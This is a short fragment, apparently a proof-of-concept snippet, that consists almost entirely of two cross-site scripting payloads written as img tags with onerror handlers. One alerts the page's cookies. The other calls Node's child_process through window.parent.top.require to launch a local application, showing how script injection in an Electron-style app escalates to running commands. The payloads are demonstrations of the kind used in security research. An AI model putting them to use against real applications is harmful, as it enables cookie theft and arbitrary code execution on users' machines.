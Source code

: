<img src=x onerror="javascript:alert(document.cookie)">

<img src=x onerror="javascript:
window.parent.top.require('child_process').execFile('/Applications/Calculator.app',function(error, stdout, stderr){        if(error){
            console.log(error);
        } });">